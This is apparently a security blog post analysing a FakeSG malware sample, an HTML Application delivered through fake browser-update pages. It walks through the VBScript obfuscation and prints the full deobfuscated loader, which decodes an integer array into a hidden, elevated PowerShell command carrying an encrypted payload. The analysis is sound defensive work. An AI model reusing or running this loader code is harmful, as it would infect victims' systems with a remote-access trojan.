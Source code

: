 ```yaml
---
layout: post
title:  "Analyzing FakeSG Malware Campaign Sample"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


FakeSG is an ongoing malware campaign (as of 12 Sep 2023). The campaign aims to compromise websites, which imitate the victim's browser update page - prompting the user to install and execute a malicious file.


### 1. Campaign
The FakeSG campaign is known for its heavy obfuscation and payload delivery tactics - opting to HTML Applications `(.hta)` files to ultimately deliver the [NetSupport Manager RAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.netsupportmanager_rat). [(Source)] (https://www.pcrisk.com/removal-guides/27315-fakesg-malware).

In this blog entry, we will analyze a `.hta` instance from the campaign, pulled off [MalwareBazaar](https://bazaar.abuse.ch/sample/4a9f42167f399abfbb42a5ee4d52922eb3f7f1ce88d23824f01d13e50609b8b9/)


<br>
### 2. Obfuscation
Here's a snippet of the embedded VBScript in the `.hta` document. The obfuscation consists of 3 main parts.

A brief explanation of VBScript syntax:
+ `:` separates the next command, like `;` in most other languages.
+ `=` denotes variable assignment.
+ `&H` denotes a hexadecimal number. (`&H10` equals decimal 16).
+ `ChrW()` converts decimal numbers into unicode characters.
+ `&` concatenates strings together.

<br>
{% highlight vbscript %}
<script language="vBsCrIPt">

a70=574 - &H1F8:a117=872 - &H2F3:a110=932 - &H336:a99=711 - &H264:a116=679 - &H233:a105=980 - &H36B:a111=255 - &H90:a110=582 - &H1D8:a32=390 - &H166:a66=684 - &H26A:a99=926 - &H33B:a100=642 - &H21E:a40=925 - &H375:a66=955 - &H379:a121=707 - &H24A:a86=809 - &H2D3:a97=1071 - &H3CE:a108=814 - &H2C2:a32=965 - &H3A5:a71=269 - &HC6:a68=183 - &H73:a66=258 - &HC0:a41=307 - &H10A:a13=994 - &H3D5:a10=241 - &HE7:a32=633 - &H259:a32=320 - &H120:a32=815 - &H30F:a32=265 - &HE9:a32=530 - &H1F2:a32=964 - &H3A4:a32=571 - &H21B:a32=932 - &H384:a32=614 - &H246:a32=320 - &H120:a32=605 - &H23D:a32=394 - &H16A:a32=334 - &H12E:a32=980 - &H3B4:a32=598 - &H236:a32=293 - &H105:a32=874 - &H34A:a32=452 - &H1A4:a32=764 - &H2DC:a68=669 - &H259:a105=755 - &H28A:a109=1095 - &H3DA:a32=840 - &H328:a120=335 - &HD7:a100=585 - &H1E5:a113=1018 - &H389:a13=492 - &H1DF:a10=683 - &H2A1:a32=758 - &H2D6:a32=619 - &H24B:a32=443 - &H19B:a32=620 - &H24C:a32=871 - &H347:a32=513 - &H1E1:a32=992 - &H3C0:a32=719 - &
...
...
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) & ChrW ( a116 ) & ChrW ( a105 ) & ChrW ( a111 ) & ChrW ( a110 ) & ChrW ( a32 ) & ChrW ( a66 ) & ChrW ( a99 ) & ChrW ( a100 ) & ChrW ( a40 ) & ChrW ( a66 ) & ChrW ( a121 ) & ChrW ( a86 ) & ChrW ( a97 ) & ChrW ( a108 ) & ChrW ( a32 ) & ChrW ( a71 ) & ChrW ( a68 ) & ChrW ( a66 ) & ChrW ( a41 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a68 ) & ChrW ( a105 ) & ChrW ( a109 ) & ChrW ( a32 ) & ChrW ( a120 ) & ChrW ( a100 ) & ChrW ( a113 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( 
...
...
Execute Eval("Eval(""Eval(""""Eval(""""""""Eval(""""""""""""""""Eval(""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval
...
...

Close
</script>
{% endhighlight %}



<br>
### 2. Deobfuscation

We notice that a string is built on the `res` variable.

{% highlight powershell %}
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) ...
{% endhighlight %}

<br>
To dynamically extract its contents, we add the line `document.write(res)` and run the malicious code.

{% highlight powershell %}
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) ...
document.write(res)
{% endhighlight %}

<br>
Shown below is the value of `res` in plaintext.

{% highlight vbscript %}
Function Bcd(ByVal GDB) Dim xdq Dim nHV nHV = 608 Dim kBR kBR = wHR(GDB) If kBR = 7000 + 1204 Then For Each xdq In GDB Dim TMN TMN = TMN & Chr(xdq - nHV) Next End If Bcd = TMN End Function Function qSN() Dim GDB Dim DQJ GDB = Array(640,653,677,728,709,707,725,724,713,719,718,688,719,716,713,707,729,640,693,718,690,709,723,724,722,713,707,724,709,708,640,691,724,705,722,724,653,688,722,719,707,709,723,723,640,647,707,717,708,654,709,728,709,647,640,653,695,713,718,708,719,727,691,724,729,716,709,640,712,713,708,708,709,718,640,653,673,722,711,725,717,709,718,724,684,713,723,724,640,731,655,707,640,720,719,727,709,722,723,712,709,716,716,654,709,728,709,640,644,715,678,728,688,682,640,669,640,647,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,673,674,664,722,717,697,660,710,680,720,706,664,712,709,714,683,656,698,677,665,713,659,724,697,705,677,716,686,721,662,661,661,714,723,674,726,693,720,681,682,678,680,687,718,657,725,707,661,716,689,714,660,674,709,657,716,660,665,692,691,721,725,730,711,664,694,665,676,680,724,693,724,675,722,685,708,655,698,684,726,687,698,661,686,715,711,678,720,722,715,690,710,658,693,705,679,665,729,680,720,708,712,724,722,676,730,720,690,682,679,676,713,675,705,691,662,673,717,683,713,728,651,712,707,694,688,716,696,710,716,714,729,718,676,686,684,727,730,660,688,693,722,714,717,659,655,691,708,719,722,663,708,706,659,710,713,698,709,721,711,711,724,697,689,657,718,698,682,656,688,726,676,692,706,664,696,661,712,665,697,721,718,678,714,716,727,719,674,718,657,683,721,717,660,728,690,716,691,665,720,676,675,659,709,651,721,661,684,710,705,677,716,716,727,697,691,659,710,676,674,656,673,673,727,683,688,681,655,729,685,687,730,663,729,714,722,694,729,720,718,686,713,685,678,674,712,696,693,698,719,685,691,713,651,719,728,665,676,713,686,714,683,710,710,698,720,727,683,725,687,685,662,661,682,688,694,688,656,696,707,722,682,707,694,664,683,687,687,720,682,711,682,707,683,676,679,665,726,698,659,675,691,725,706,675,684,678,683,684,723,680,657,677,684,695,716,692,663,729,661,689,684,651,684,720,723,659,662,676,697,695,677,707,663,713,679,730,663,705,727,716,697,722,691,710,659,678,728,698,696,712,721,691,719,726,720,674,659,715,677,721,717,697,692,727,692,651,656,709,718,697,689,717,708,689,685,660,730,717,720,665,696,656,729,719,693,729,684,673,674,715,657,725,716,681,678,728,681,662,710,676,687,698,726,688,691,657,687,665,687,662,728,679,723,686,662,678,682,662,723,664,696,712,656,696,709,724,691,660,710,706,661,709,681,722,713,695,657,728,678,686,685,680,709,711,723,674,690,661,709,684,656,651,697,711,677,689,665,718,709,663,657,720,729,676,677,692,689,683,715,655,712,684,690,709,674,695,688,716,677,662,673,705,678,719,684,660,708,728,658,696,661,728,715,662,691,729,727,708,695,673,696,724,656,681,721,729,695,728,685,707,710,730,719,709,675,651,685,658,708,719,679,692,724,680,651,729,691,730,719,709,658,730,692,727,718,655,720,674,719,728,719,692,662,694,686,677,676,695,686,663,674,721,682,730,716,697,709,688,687,655,713,713,716,712,697,680,678,696,718,697,713,707,675,688,678,722,715,712,710,663,693,651,723,728,660,683,691,682,718,727,718,720,722,713,686,708,725,680,692,694,711,698,721,679,686,658,723,651,710,695,682,714,658,673,729,730,665,675,713,685,720,707,722,710,724,691,655,689,723,679,705,725,724,651,729,712,698,656,705,675,696,692,657,688,723,665,692,691,719,712,658,692,658,665,680,690,693,693,726,680,711,698,689,727,680,680,695,677,676,686,705,665,673,657,715,675,716,684,721,680,707,684,665,663,683,722,680,662,689,656,694,724,677,697,727,688,660,716,710,692,680,690,657,698,691,655,712,689,694,680,689,676,664,676,685,712,665,696,716,730,684,676,712,690,705,709,673,660,715,657,710,728,686,684,661,724,709,681,727,696,717,659,680,720,657,727,678,691,722,714,718,721,658,662,682,709,725,678,718,664,660,726,661,674,708,684,689,692,726,693,723,708,691,710,683,675,706,719,674,726,698,661,711,677,682,684,723,709,708,720,690,729,730,709,660,684,727,713,695,687,682,714,712,720,718,711,719,658,659,718,706,687,692,711,711,664,661,697,720,712,721,698,690,679,665,681,682,690,690,724,715,683,730,656,710,690,655,661,686,692,657,711,684,686,683,717,664,663,687,730,693,713,727,723,714,705,696,685,651,712,679,691,693,722,715,709,708,683,656,658,725,688,714,730,664,681,674,656,659,716,673,674,727,690,723,658,722,711,709,695,698,710,714,693,712,694,656,651,697,710,717,657,686,681,665,687,689,708,690,659,695,721,705,674,680,705,678,694,692,707,690,730,679,730,657,675,692,676,716,686,662,730,651,705,714,651,697,727,709,658,682,689,681,723,687,665,658,661,660,694,696,659,661,681,686,727,662,715,727,676,723,655,680,696,716,661,727,673,655,714,724,730,710,710,663,683,677,712,678,690,727,662,715,710,692,712,693,655,692,658,684,714,692,682,675,705,665,655,675,707,687,722,724,726,708,727,694,697,663,722,656,677,659,656,689,674,693,727,714,691,724,728,728,698,706,694,690,691,693,677,691,698,698,714,682,682,662,728,658,685,686,727,674,675,710,662,665,728,673,676,684,688,716,685,726,651,714,710,679,689,684,683,692,706,689,686,683,721,676,724,723,694,682,717,718,723,723,697,685,708,679,695,714,712,725,655,659,715,689,678,713,686,728,687,698,698,695,711,690,729,693,680,718,730,715,716,725,692,685,714,710,680,709,661,717,686,679,678,663,711,720,681,687,697,662,656,678,681,677,687,705,711,710,714,695,692,679,677,718,686,661,709,715,655,680,725,730,683,678,723,712,707,690,656,721,651,689,710,728,706,698,689,697,656,656,678,697,665,725,691,692,727,688,684,717,665,716,724,657,729,664,655,722,691,694,697,728,674,692,711,681,658,723,707,678,730,707,687,718,685,686,718,728,693,691,693,708,710,709,683,727,691,655,716,726,686,721,715,710,685,663,674,709,691,695,715,690,656,682,720,719,708,724,725,691,729,729,685,712,658,663,729,680,728,720,697,726,727,659,685,695,681,655,705,655,684,716,659,698,693,728,723,696,725,720,657,693,730,686,658,695,692,660,674,686,657,706,676,711,690,659,677,659,664,717,696,661,730,663,709,659,682,665,727,709,722,692,665,726,698,678,688,677,721,729,675,728,691,706,659,721,692,681,707,709,697,655,655,728,719,692,679,675,659,664,686,656,674,722,677,677,720,657,693,683,660,685,717,709,710,694,690,715,665,689,669,669,647,667,644,681,679,698,705,716,695,640,669,640,647,697,656,682,721,694,659,682,716,708,677,728,691,706,696,694,716,694,718,682,679,689,694,720,717,689,718,712,685,690,694,682,727,692,659,686,688,706,717,694,662,707,659,681,669,647,667,644,688,705,676,705,695,682,714,694,640,669,640,686,709,727,653,687,706,714,709,707,724,640,647,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,673,709,723,685,705,718,705,711,709,708,647,667,644,688,705,676,705,695,682,714,694,654,685,719,708,709,640,669,640,699,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,675,713,720,712,709,722,685,719,708,709,701,666,666,677,675,674,667,644,688,705,676,705,695,682,714,694,654,688,705,708,708,713,718,711,640,669,640,699,691,729,723,724,709,717,654,691,709,707,725,722,713,724,729,654,675,722,729,720,724,719,711,722,705,720,712,729,654,688,705,708,708,713,718,711,685,719,708,709,701,666,666,698,709,722,719,723,667,644,688,705,676,705,695,682,714,694,654,674,716,719,707,715,691,713,730,709,640,669,640,657,658,664,667,644,688,705,676,705,695,682,714,694,654,683,709,729,691,713,730,709,640,669,640,658,661,662,667,644,688,705,676,705,695,682,714,694,654,683,709,729,640,669,640,699,691,729,723,724,709,717,654,675,719,718,726,709,722,724,701,666,666,678,722,719,717,674,705,723,709,662,660,691,724,722,713,718,711,648,644,681,679,698,705,716,695,649,667,644,722,696,715,729,714,640,669,640,699,691,729,723,724,709,717,654,675,719,718,726,709,722,724,701,666,666,678,722,719,717,674,705,723,709,662,660,691,724,722,713,718,711,648,644,715,678,728,688,682,649,667,644,730,727,681,717,708,687,695,684,640,669,640,644,722,696,715,729,714,699,656,654,654,657,661,701,667,644,688,705,676,705,695,682,714,694,654,681,694,640,669,640,644,730,727,681,717,708,687,695,684,667,644,725,684,726,716,709,721,680,709,728,640,669,640,644,688,705,676,705,695,682,714,694,654,675,722,709,705,724,709,676,709,707,722,729,720,724,719,722,648,649,667,644,719,725,673,697,681,688,714,720,730,640,669,640,644,725,684,726,716,709,721,680,709,728,654,692,722,705,718,723,710,719,722,717,678,713,718,705,716,674,716,719,707,715,648,644,722,696,715,729,714,652,640,657,662,652,640,644,722,696,715,729,714,654,684,709,718,711,724,712,640,653,640,657,662,649,667,644,688,705,676,705,695,682,714,694,654,676,713,723,720,719,723,709,648,649,667,644,718,707,692,692,673,718,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,685,709,717,719,722,729,691,724,722,709,705,717,648,640,652,640,644,719,725,673,697,681,688,714,720,730,640,649,667,644,727,684,687,709,673,722,698,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,685,709,717,719,722,729,691,724,722,709,705,717,667,644,710,715,715,697,684,712,718,687,730,640,669,640,686,709,727,653,687,706,714,709,707,724,640,691,729,723,724,709,717,654,681,687,654,675,719,717,720,722,709,723,723,713,719,718,654,679,730,713,720,691,724,722,709,705,717,640,644,718,707,692,692,673,718,652,640,648,699,681,687,654,675,719,717,720,722,709,723,723,713,719,718,654,675,719,717,720,722,709,723,723,713,719,718,685,719,708,709,701,666,666,676,709,707,719,717,720,722,709,723,723,649,667,644,710,715,715,697,684,712,718,687,730,654,675,719,720,729,692,719,648,640,644,727,684,687,709,673,722,698,640,649,667,644,710,715,715,697,684,712,718,687,730,654,675,716,719,723,709,648,649,667,644,718,707,692,692,673,718,654,675,716,719,723,709,648,649,667,699,706,729,724,709,699,701,701,640,644,691,697,708,712,687,714,728,640,669,640,644,727,684,687,709,673,722,698,654,692,719,673,722,722,705,729,648,649,667,644,721,712,697,728,709,714,717,640,669,640,699,691,729,723,724,709,717,654,692,709,728,724,654,677,718,707,719,708,713,718,711,701,666,666,693,692,678,664,654,679,709,724,691,724,722,713,718,711,648,644,691,697,708,712,687,714,728,649,667,644,721,712,697,728,709,714,717,640,732,640,720,719,727,709,722,723,712,709,716,716,640,653,640,733) Dim thI DQJ = Array(720,719,727,709,722,723,712,709,716,716,654,709,728,709) thI = Bcd(GDB) Set Mdq = RSv(Bcd(Array(691,712,709,716,716,654,673,720,720,716,713,707,705,724,713,719,718))) LJD = Bcd(DQJ) Mdq.ShellExecute LJD, thI,"","runas",0 self.close() End Function Function wHR(ByVal kBR) wHR = VarType(kBR) End Function Function RSv(ByVal objectType) Set RSv = CreateObject(objectType) End Function qSN() 
{% endhighligh %}
